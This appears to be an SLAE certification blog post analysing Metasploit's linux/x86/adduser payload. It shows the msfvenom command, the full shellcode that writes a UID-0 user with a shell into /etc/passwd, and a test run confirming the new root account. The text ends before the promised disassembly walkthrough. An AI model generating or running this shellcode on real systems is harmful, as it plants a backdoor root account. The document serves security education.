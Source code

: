 ```yaml
---
layout: post
title: SLAE 5.2 - Metasploit Payload Analysis adduser
date:   2019-03-02
categories: [SLAE, Assembly]
---
```


This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:

[http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/](http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)

The fifth question for the SLAE exam is to analyze 3 metasploit payloads, this is part 2 of 3 for this question.  The requirements are:
* Select a linux/x86 payload from msfpayload
* Use gdb/ndisasm/libemu to dissect the functionality of the shellcode
* Present the analysis

The 2nd metasploit payload we will analyze will be linux/x86/adduser.

Time to set up the payload options and output the shellcode with msfvenom.
```c
msfvenom -p linux/x86/adduser PASS=SLAE USER=SLAE SHELL=/bin/sh -f c
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 91 bytes
Final size of c file: 409 bytes
unsigned char buf[] = 
"\x31\xc9\x89\xcb\x6a\x46\x58\xcd\x80\x6a\x05\x58\x31\xc9\x51"
"\x68\x73\x73\x77\x64\x68\x2f\x2f\x70\x61\x68\x2f\x65\x74\x63"
"\x89\xe3\x41\xb5\x04\xcd\x80\x93\xe8\x22\x00\x00\x00\x53\x4c"
"\x41\x45\x3a\x41\x7a\x72\x63\x6e\x7a\x50\x59\x6c\x66\x72\x32"
"\x45\x3a\x30\x3a\x30\x3a\x3a\x2f\x3a\x2f\x62\x69\x6e\x2f\x73"
"\x68\x0a\x59\x8b\x51\xfc\x6a\x04\x58\xcd\x80\x6a\x01\x58\xcd"
"\x80";
```
Time to make sure it works.  Place shellcode in the c wrapper, compile with proper flags, then run this with elevated permissions.  Since we are editing /etc/passwd, this will need to be run with sudo OR change permissions to your /etc/passwd file then revert after testing.  Steps for the c wrapper and compiler flags can be found in my first two SLAE posts - Shell Bind TCP and Shell Reverse TCP.
```
sudo ./shellcode2
[sudo] password for pwoer: 
Shellcode Length:  40
```
Successfully ran without any errors.. Let's take a look at the bottom of the /etc/passwd file now.
```
cat /etc/passwd
pwoer:x:1000:1000:gg,,,:/home/pwoer:/bin/bash
SLAE:AzrcnzPYlfr2E:0:0::/:/bin/sh
```
It works! Time to walk through the shellcode..
